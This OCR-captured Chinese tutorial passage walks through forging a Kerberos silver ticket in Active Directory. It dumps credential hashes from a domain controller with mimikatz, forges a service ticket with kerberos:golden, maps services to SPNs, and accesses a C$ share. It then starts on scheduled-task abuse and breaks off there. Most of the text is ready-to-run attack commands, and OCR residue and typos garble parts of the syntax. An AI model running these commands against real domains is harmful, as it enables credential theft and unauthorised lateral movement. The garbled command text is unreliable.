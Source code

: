 #### 伪造流程

1. 用域管理员账号登录主域控,使用mimikatz.exe执行命令抓取hash(在域控中执行) uage-apl

   ```apl
   01020304mimikatz.exe
   
   privilege::debug
   sekurlsa:logonpasswords
   ```

2. 伪造票据。得到服务账户的HASH之后使用 mimikatz中的kerberos:golden功能，通过/service参数指定服务名，从而生成白银票据TGS ticket。uage-apl

   ```apl
   01020304050607080910kerberos:golden /user:伪造的用户名 /domain:域名 /sid:域SID值 /target:目标主机 /rc4:目标主机服务的HASH值(NTLM) /service:需要伪造的服务  /ptt
   
   #参数说明
   /domain:指定域名
   /sid:域sid号(最后一部分)
   /target:目标主机计算机名
   /rc4:目标主机服务的hash(NTLM)
   /service:需要伪造的服务
   /user:需要伪造的用户名
   /ppt:伪造了以后直接写入到内存中
   ```

   | 服务类型            | 白银票据对应的服务名 |
   | ------------------- | -------------------- |
   | WMI                 | HOST/RPCSS           |
   | PowerShell Remoting | HOST/HOST            |
   | WinRM               | HOST/HTTP            |
   | Scheduled Tasks     | HOST                 |
   | Windows File Share  | CIFS                 |

3. 利用伪造的白银票据 uage-apl

   ```apl
   01dir \\dc.laffrex.com\c$
   ```

#### 扩展利用

##### 计划任务

- 利用HOST服务来修改或创建计划任务，需要导入一张 **HOST Silver Ticket**

1. 创建票据 uage-apl

   ```apl
   01kerberos:golden /user:伪造的用户名 /domain:域名/sid:sID /target:日标主机 /rc4:日标主机的hash值/service:HOST /ptt
   ```

2. 创建计划任务 uage-apl
